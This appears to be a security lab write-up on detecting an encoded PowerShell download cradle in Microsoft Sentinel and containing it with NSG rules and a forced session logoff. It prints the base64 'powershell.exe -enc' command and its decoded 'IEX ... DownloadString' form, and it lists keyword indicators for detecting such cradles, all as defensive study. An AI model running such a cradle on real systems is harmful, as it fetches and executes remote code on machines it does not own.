






# Scenario 3 — Execution Layer Containment
 
## Objective
 
Determine whether Sentinel can detect malicious process execution on the compromised VM — specifically an encoded PowerShell download cradle, a common real-world post-compromise technique — and contain it in a way that stops the threat immediately without destroying the forensic value of the machine. This is the final and deepest layer tested in this project: by this point, the attacker has already survived (or bypassed) every earlier layer and is now executing code directly on the endpoint.
 
## Attack Simulation
 
From the active `sjones` RDP session (established as in Scenario C), the following command was executed from `cmd.exe`:
 
```
powershell.exe -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAuAC4ALgAnACkA
```
 
Decoded, this is:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com...')
```
 
This is a "download cradle" — a technique where a remote payload is fetched and executed directly in memory via `Invoke-Expression`, without ever being written to disk first. This is a genuine, common real-world pattern (not an invented example), used specifically because it evades detections that only watch for suspicious files landing on disk, and because base64 encoding via `-enc`/`-EncodedCommand` is itself a common lightweight obfuscation technique to slow down casual log review. Maps to MITRE ATT&CK T1059.001 (PowerShell) and T1105 (Ingress Tool Transfer).
 
## Detection Logic — attribution correctness
 
The detection is built on Sysmon Event ID 1 (process creation), filtered for `powershell.exe` invocations containing encoding or download-cradle indicators (`-enc`, `FromBase64String`, `DownloadString`, `IEX`).
 
**A significant, genuinely confusing attribution issue was found and resolved during this project, and is worth documenting in full because it consumed substantial investigation time and produced a real, transferable lesson.** Early testing appeared to show the executing user as `NT AUTHORITY\SYSTEM` rather than `sjones`, which would have suggested either an unexpected privilege escalation or a logging/parsing fault. Two plausible-sounding but ultimately incorrect explanations were considered and discarded before the real cause was found:
 
- A theory that Sysmon logs registry/process events using the security context of the log-writing service itself (an "outer envelope" concept), rather than the actual acting process — this was disproven directly by inspecting raw event XML, which showed a genuine, correctly populated `User` field inside the event payload for other, unrelated events.
- A theory that a specific Sysmon Event ID (12, registry object creation/deletion) structurally lacks a native `User` field at all — also disproven the same way, by finding a genuine `User` field present in a real Event ID 12 sample.
The actual cause, found by directly comparing `ProcessGuid` values across events rather than trusting any single field in isolation, was simpler and unrelated to either theory: the specific "SYSTEM" event being examined was an entirely different, unrelated background process (the Windows Print Spooler performing routine driver registry maintenance) that happened to share the same Event ID as the one being investigated, but had no `ProcessGuid` relationship to the actual attack activity. Once the correct event was isolated — by filtering specifically for the target registry path/process rather than the Event ID alone — the `User` field correctly and consistently showed `sjones` throughout.
 
The broader lesson, applied throughout the rest of this project: the top-level `UserName` column exposed on the generic `Event` table in Sentinel is an envelope-level field that can genuinely reflect a logging service's own context and is not reliable for attribution. The correct, reliable source is the `User` field extracted from inside the event's own payload data (`EventData`/`RenderedDescription`), which is what the final detection query does:
 
```kusto
| extend ActualUser = extract(@'<Data Name="User">([^<]+)</Data>', 1, EventData)
```
 
See the full query in `detections/scenario3_encoded_powershell.kql`. Entity mapping: Account → `ActualUser`, Host → `Computer`.
 
**A separate, smaller correctness issue:** the query editor's built-in linter recommends `has`/`has_any` over `contains` for performance reasons (indexed term matching vs. full substring scan). This recommendation was deliberately not followed for the `-enc` check specifically, because `has`/`has_any` tokenize on punctuation boundaries and are unreliable for short, punctuation-prefixed strings like `-enc` — a real match can be silently missed. `contains` was retained for that specific condition, accepting the performance tradeoff in exchange for correctness, which matters far more at this project's data scale than any measurable performance cost.
 
## Response Design — three-part containment, not VM restart
 
The response was deliberately designed around three distinct, sequential actions rather than the simpler (and initially considered) option of restarting the VM to forcibly drop all connections.
 
**Why not restart:** a VM restart does successfully terminate an attacker's session, but at the cost of destroying volatile forensic evidence — running processes, open network connections, and anything staged only in memory — which is a recognized incident-response anti-pattern. A real SOC does not restart a suspected-compromised machine as a first response specifically because it can destroy the evidence needed to understand what happened.
 
**The three parts:**
 
1. **NSG allow rule (priority 90)** — explicitly permits the analyst's own home IP, ensuring investigative access to the machine is preserved after containment, not lost along with the attacker's access.
2. **NSG deny-all rule (priority 100)** — blocks all new inbound and outbound connections at the network layer, preventing reconnection and any outbound command-and-control callback.
3. **Azure Run Command — forced session logoff** — executes a PowerShell script inside the guest OS via the Azure VM agent (not merely an Azure Resource Manager-layer action) that identifies the active `sjones` session and forcibly logs it off.
**Why all three are necessary, not just NSG rules:** this design was arrived at after directly testing and observing that NSG rules alone are insufficient. Azure NSGs are stateful only at connection setup — once a TCP session (such as an already-established RDP connection) exists, a newly added deny rule does not terminate it. This was confirmed empirically: an NSG deny-all rule was applied while an active RDP session was open, and the session remained connected until a separate, explicit termination action (the Run Command logoff) was added. This same underlying behavior — cloud/network-layer actions not affecting already-established sessions — was also independently observed in Scenario C's identity-based containment, reinforcing it as a general principle rather than a one-off quirk.
 
See the full Logic App definition in `playbooks/scenario3_three_part_containment.json`.
 
**Permissions:** the Logic App's managed identity required both Network Contributor (for the NSG rule changes) and Virtual Machine Contributor (for the Run Command action) roles on the resource group — a broader permission set than either Scenario 1 or Scenario C's Logic Apps required, since this scenario acts on infrastructure, not just identity.
 
## Timeline
 
| Time | Event |
|---|---|
| T+0 | `sjones` executes the encoded PowerShell download cradle from an active RDP session |
| T+up to 5min | Analytics rule detects the process creation event, correctly attributes it to `sjones` via payload-level `User` field extraction |
| T+5min | Sentinel incident created, Host and Account entities mapped |
| T+5min | Logic App triggers |
| T+5min | NSG allow rule (home IP, priority 90) applied |
| T+5min | NSG deny-all rule (priority 100) applied |
| T+5min | Run Command executes inside the guest OS, forcibly logs off the active `sjones` session |
| Immediately after | Active RDP session observed to drop |
| — | Reconnection from home IP confirmed to still succeed |
 
## Outcome
 
The encoded PowerShell execution was correctly detected and attributed to the actual acting user, despite an initial, genuinely confusing attribution anomaly that required careful raw-log investigation (not assumption) to resolve. The three-part containment achieved near-immediate eviction of the active session while preserving both ongoing analyst access and the machine's forensic state — a materially stronger design than the simpler alternative (restart) that was deliberately not used.
 
## Artifacts Captured
 
**Encoded PowerShell command executed** in the active RDP session:

 
**Raw Sysmon EventData** showing the full encoded command line and correctly attributed `User: sjones`:

 
**Sentinel incident** with Host and Account entities mapped:

 
**Logic App run history** showing all three containment actions succeeded:

 
**NSG rules** visible in the Azure Portal (both priority 90 and priority 100):

 
**Session dropped and reconnection behavior** — dropped for the attacker, confirmed working from the whitelisted home IP:

 
## Investigation Walkthrough
 
A separate, dedicated DFIR-style walkthrough of this scenario's incident — including manual timeline reconstruction and IOC extraction, performed as a distinct investigative exercise rather than relying solely on this build report — is documented in `reports/scenario3-investigation-walkthrough.md`.